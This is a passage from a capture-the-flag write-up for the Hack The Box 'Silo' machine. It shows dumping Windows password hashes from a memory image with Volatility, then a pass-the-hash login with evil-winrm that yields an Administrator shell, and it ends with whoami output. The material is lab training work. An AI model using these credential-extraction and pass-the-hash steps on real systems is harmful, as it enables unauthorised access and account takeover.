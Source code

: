 Here it suggests some more profiles but we know the system is `Microsoft Windows Server 2012 R2`

Now we can just dump the hash using `hashdump` plugin.

```bash
root@kali:~/CTF/HTB/Boxes/Silo# volatility -f SILO-20180105-221806.dmp --profile Win2012R2x64 hashdump
Volatility Foundation Volatility Framework 2.6
Administrator:500:aad3b435b51404eeaad3b435b51404ee:9e730375b7cbcebf74ae46481e07b0c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Phineas:1002:aad3b435b51404eeaad3b435b51404ee:8eacdd67b77749e65d3b3d5c110b0969:::
```

And we got Administrator hash

I used the hash to login.

```bash
root@kali:~/CTF/HTB/Boxes/Silo# evil-winrm -i 10.10.10.82 -u Administrator -H 9e730375b7cbcebf74ae46481e07b0c7

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
silo\administrator
```

We own the System.

## Privilege Escalation by Token Impersonation

`whoami /all` will reveal the complete information about the user.

```bash
PS C:\Users\Phineas\Desktop> whoami /all

USER INFORMATION
----------------

User Name                  SID                                                          
========================== =============================================================
iis apppool\defaultapppool S-1-5-82-3006700770-424185619-1745488364-794895919-4004696415

GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
```
